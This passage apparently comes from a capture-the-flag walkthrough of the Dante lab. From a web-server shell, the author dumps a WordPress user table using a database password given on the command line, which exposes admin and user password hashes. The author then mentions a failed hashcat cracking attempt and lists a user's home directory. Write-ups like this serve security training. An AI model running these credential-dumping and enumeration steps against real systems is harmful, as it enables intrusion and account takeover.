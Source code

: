 ```bash
www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ mysql -u shaun -ppassword -e "use wordpress; select * from wp_users;"
<assword -e "use wordpress; select * from wp_users;"
mysql: [Warning] Using a password on the command line interface can be insecure.
ID      user_login      user_pass       user_nicename   user_email      user_url    user_registered user_activation_key     user_status     display_name
1       admin   $P$BiINvM48wJ1iyfwOroCTdFhjB2qOvO.      admin   a@b.com http://127.0.0.1/wordpress  2020-05-09 21:16:26     1735977828:$P$BH3X3H7eBc/l/ST8vXRe3ynhvCXn4T1       0       admin
2       james   $P$B/kdWnMDyh1oMT0QCG9YAyEu8Yt.M0.      james   james@james.james   http://james.james      2020-05-09 22:17:18     1735969640:$P$BPCjtrfo6n3n5P/w7107H/sMOVyMtu/       0       James James

www-data@DANTE-WEB-NIX01:/var/www/html/wordpress$ mysql -u shaun -ppassword -e "use wordpress;select user_login,user_pass from wp_users;"
<rdpress;select user_login,user_pass from wp_users;"
mysql: [Warning] Using a password on the command line interface can be insecure.
user_login      user_pass
admin   $P$BiINvM48wJ1iyfwOroCTdFhjB2qOvO.
james   $P$B/kdWnMDyh1oMT0QCG9YAyEu8Yt.M0.
```

I tried to crack it using `hashcat` for long, but it was not successful.

##### Shell as  `balthazar` on NIX01

Since there's nothing further useful in the webroot directory, why don't we move onto the next target : `james`
I can list the files in `/home/james` directory.

```yaml
www-data@DANTE-WEB-NIX01:/home/james$ ls -al
ls -al
total 92
drwxr-xr-x 17 james james 4096 Apr 14  2021 .
drwxr-xr-x  4 root  root  4096 Apr 14  2021 ..
-rw-r--r--  1 root  root    74 Aug  5  2020 .bash_history
-rw-r--r--  1 james james  220 May  9  2020 .bash_logout
-rw-r--r--  1 james james 3771 May  9  2020 .bashrc
drwxr-xr-x 13 james james 4096 Apr 14  2021 .cache
drwxr-xr-x 11 james james 4096 Apr 14  2021 .config
drwx------  3 james james 4096 Dec 15  2022 .gnupg
drwxrwxr-x  3 james james 4096 Apr 14  2021 .local
drwx------  5 james james 4096 Apr 14  2021 .mozilla
-rw-r--r--  1 james james  807 May  9  2020 .profile
drwx------  2 james james 4096 Apr 14  2021 .ssh
drwx------  6 james james 4096 Apr 14  2021 .thunderbird
-rw-rw-r--  1 james james  168 May  9  2020 .wget-hsts
drwxr-xr-x  2 james james 4096 Apr 14  2021 Desktop
drwxr-xr-x  2 james james 4096 Apr 14  2021 Documents
drwxr-xr-x  2 james james 4096 Apr 14  2021 Downloads
drwxr-xr-x  2 james james 4096 Apr 14  2021 Music
drwxr-xr-x  2 james james 4096 Apr 14  2021 Pictures
drwxr-xr-x  2 james james 4096 Apr 14  2021 Public
drwxr-xr-x  2 james james 4096 Apr 14  2021 Templates
drwxr-xr-x  2 james james 4096 Apr 14  2021 Videos
-r--------  1 james james   39 Jan  8  2021 flag.txt
```
